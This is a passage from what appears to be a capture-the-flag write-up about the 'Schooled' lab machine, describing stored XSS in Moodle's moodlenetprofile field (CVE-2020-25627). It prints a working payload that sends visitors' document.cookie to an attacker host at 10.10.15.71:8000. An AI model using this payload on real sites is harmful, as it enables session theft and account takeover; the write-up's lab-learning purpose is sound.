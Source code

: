 ![](screenshots/school-manager.png)

## XSS in "Moodle"

[CVE-2020-25627](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25627): `moodlenetprofile` field in user profile is vulnerable for xss. which found `http://moodle.schooled.htb/moodle/user/edit.php` after creating student account.

![](screenshots/moodlenet-field.png)

**Payload**
```html
<script>var i=new Image;i.src="http://10.10.15.71:8000/?"+document.cookie;</script>
```
